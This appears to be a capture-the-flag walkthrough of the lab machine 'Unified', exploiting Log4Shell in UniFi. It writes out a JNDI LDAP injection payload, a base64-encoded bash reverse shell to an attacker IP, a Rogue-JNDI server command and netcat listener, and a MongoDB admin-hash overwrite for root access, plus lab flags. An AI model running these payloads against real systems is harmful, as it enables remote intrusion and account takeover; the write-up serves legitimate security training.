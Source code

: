 # CTF Walkthrough: Unified

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Information Gathering](#2-information-gathering)
- [3. Vulnerability Discovery](#3-vulnerability-discovery)
- [4. Exploitation](#4-exploitation)
- [5. Privilege Escalation](#5-privilege-escalation)

---

## 1. Introduction
 
**Category:** Log4j, Burpsuite, tcpdump, Rogue-JNDI, LDAP protocol, Reverse Shell, netcat, ps, MongoDB, mkpasswd, SSH
**Difficulty Level:** Very Easy   
**CVE(s) involved:** CVE-2021-44228

---

## 2. Information Gathering

### 2.1. Initial Enumeration
- **Add to /etc/hosts**
    - Command: `sudo vim /etc/hosts`
    - Command: `10.129.96.149 unified.htb`

- **Running Services**
  - Command: `nmap -sC -sV 10.129.96.149`
      - Output: 
        ```
        PORT     STATE SERVICE         VERSION
        22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        | ssh-hostkey:
        |   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
        |   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
        |_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
        6789/tcp open  ibm-db2-admin?
        8080/tcp open  http            Apache Tomcat (language: en)
        |_http-open-proxy: Proxy might be redirecting requests
        |_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
        8443/tcp open  ssl/nagios-nsca Nagios NSCA
        | http-title: UniFi Network
        |_Requested resource was /manage/account/login?redirect=%2Fmanage
        | ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
        | Subject Alternative Name: DNS:UniFi
        | Not valid before: 2021-12-30T21:37:24
        |_Not valid after:  2024-04-03T21:37:24
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 196.28 seconds
        ```
## 3. Vulnerability Discovery
- **Visiting the website**
    - Visit `http://unified.htb:8080`
    - UniFi 6.4.54 is vulnerable using Log4j exploit

## 4. Exploitation
- **Log4j Exploit**
    - Log in with random username and password, with Remember Me checked
    - Intercept unified.htb:8443 with Burpsuite
        - Output:
            ```
            POST /api/login HTTP/1.1

            Host: unified.htb:8443

            User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
            Accept: */*
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate, br
            Referer: https://unified.htb:8443/manage/account/login?redirect=%2Fmanage
            Content-Type: application/json; charset=utf-8
            Content-Length: 67
            Origin: https://unified.htb:8443
            Sec-Fetch-Dest: empty
            Sec-Fetch-Mode: cors
            Sec-Fetch-Site: same-origin
            Priority: u=0
            Te: trailers
            Connection: keep-alive

            {"username":"test","password":"test","remember":true,"strict":true}
            ```
    - Send to Repeater
    - Replace "remember" POST request with:
        - `"remember":"${jndi:ldap://10.10.14.174/whatever}"`

    - Verify using tcpdump
        - Command: `sudo tcpdump -i tun0 port 389`
            - Output:
                ```
                listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
                22:03:22.134444 IP unified.htb.41416 > 10.10.14.174.ldap: Flags [S], seq 3754317506, win 64240, options [mss 1362,sackOK,TS val 98895062 ecr 0,nop,wscale 7], length 0
                22:03:22.134463 IP 10.10.14.174.ldap > unified.htb.41416: Flags [R.], seq 0, ack 3754317507, win 0, length 0
                ```
    - Create an encoded payload
        - Command: `echo 'bash -c bash -i >&/dev/tcp/10.10.14.174/1261 0>&1' | base64`
            - Output:
                ```
                YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTc0LzEyNjEgMD4mMQo=
                ```

    - Create payload with Rogue-jndi
        - Source: https://github.com/veracode-research/rogue-jndi
        - Install dependencies
            - Command: `sudo apt install openjdk-11-jdk`
            - Command: `sudo apt install maven`
        - Command: `cd rogue-jndi`
        - Command: `mvn package`

    - Reverse Shell
        - Start the server
            - Command: `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTc0LzEyNjEgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.174"`
        - Start netcat
            - Command: `nc -lvnp 1261`
        - Send request in Burpsuite with
            - `"remember":"${jndi:ldap://<ATTACKING IP>:1389/o=tomcat}"`
        - Update terminal
            - Command: `script /dev/null -c bash`

- **User flag**
    - Command: `cat /home/michael/user.txt`
        - Output:
            ```
            6ced1a6a89e666c0620cdb10262ba127
            ```

## 5. Privilege Escalation
- **Getting Admin Password**
    - Command: `ps aux | grep mongo`
        - Output:
            ```
            unifi         67  0.3  4.1 1070976 85116 ?       Sl   13:58   0:18 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
            unifi       2605  0.0  0.0  11468  1000 pts/0    S+   15:30   0:00 grep mongo
            ```
    - Check MongoDB database
        - Command: `mongo ace --port 27117 --eval "db.admin.find().forEach(printjson);"`
            - Output:
                ```
                MongoDB server version: 3.6.3
                {
                        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
                        "name" : "administrator",
                        "email" : "administrator@unified.htb",
                        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
                        "time_created" : NumberLong(1640900495),
                        "last_site_name" : "default",
                ```

- **Changing Admin Password to "admin"**
    - Command: `mkpasswd -m sha512crypt admin`
        - Output:
            ```
            $6$F5G4iq2z1ctaDZgu$ALdDePm0Eim2yDM3zyFWN4.rZ/26n4/oS3kzCd/vJmrK/frDKw2YwtLJaXXCZIzv6Bm93rn0wB.14n/KjxCJM/
            ```


- **Update Admin Password**
    - Command: `mongo ace --port 27117 --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$F5G4iq2z1ctaDZgu$ALdDePm0Eim2yDM3zyFWN4.rZ/26n4/oS3kzCd/vJmrK/frDKw2YwtLJaXXCZIzv6Bm93rn0wB.14n/KjxCJM/"}})'`
        - Output:
            ```
            MongoDB shell version v3.6.3
            connecting to: mongodb://127.0.0.1:27117/ace
            MongoDB server version: 3.6.3
            WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
            ```

- **Log in as Administrator at unified.htb**
    - Username: administrator
    - Password: admin

- **Obtain SSH Credentials**
    - Settings > Site > Device Authentication
        - Username: root
        - Password: NotACrackablePassword4U2022

- **SSH**
    - Command: `ssh root@unified.htb`

- **Root Flag**
    - Command: `cat root.txt`
        - Output:
            ```
            e50bc93c75b634e4b272d2f771c33681
            ```

